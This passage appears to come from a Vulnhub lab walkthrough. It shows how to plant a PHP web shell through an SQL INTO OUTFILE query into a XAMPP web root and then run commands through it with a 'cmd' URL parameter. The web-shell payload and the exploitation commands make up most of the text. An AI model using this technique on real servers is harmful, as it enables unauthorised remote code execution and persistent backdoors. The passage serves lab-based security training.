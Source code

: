 So Lets go to SQL tab and Enter this query to include this script into this `backdoor.php` file →

```bash
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\backdoor.php"
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Django/Untitled%203.png)

Now After running it successfuly lets run `backdoor.php` file →

```bash
https://10.150.150.212/backdoor.php?cmd=whoami
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Django/Untitled%204.png)
